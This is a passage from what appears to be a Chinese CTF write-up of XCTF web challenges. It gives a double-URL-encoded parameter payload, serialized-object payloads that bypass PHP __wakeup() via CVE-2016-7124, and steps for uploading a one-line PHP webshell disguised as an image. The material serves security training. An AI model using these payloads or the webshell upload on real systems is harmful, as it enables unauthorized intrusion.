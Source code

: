 Payload：id=%2561dmin

---
## unserialize3
- 考点：php反序列化绕过__wakeup()

![](https://img-blog.csdnimg.cn/20210307171348277.png#pic_center)

---

**unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。** 

本体关键在于绕开_wakeup()函数

**当成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)**

构造：

```bash
<?php
 
class xctf{
 
public $flag = "111";
 
}
 
$s = new xctf();
echo(serialize($s));
 
?>

```

得到：O:4:"xctf":1:{s:4:"flag";s:3:"111";}

payload：

```
 O:4:"xctf":2:{s:4:"flag";s:3:"111";}
 O:1:"xctf":1:{s:4:"flag";s:3:"111";} 
 O:4:"xctf":1:{s:1:"flag";s:3:"111";}
```

---
## upload1
- 考点：文件上传

![](https://img-blog.csdnimg.cn/2021030717190276.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
限制上传 jpg，png类型，记事本写入一句话木马，后缀为jpg，上传时用bp抓包，修改后缀为php，蚁剑连接

---
## nizhuansiwei
- 考点：伪协议+反序列化

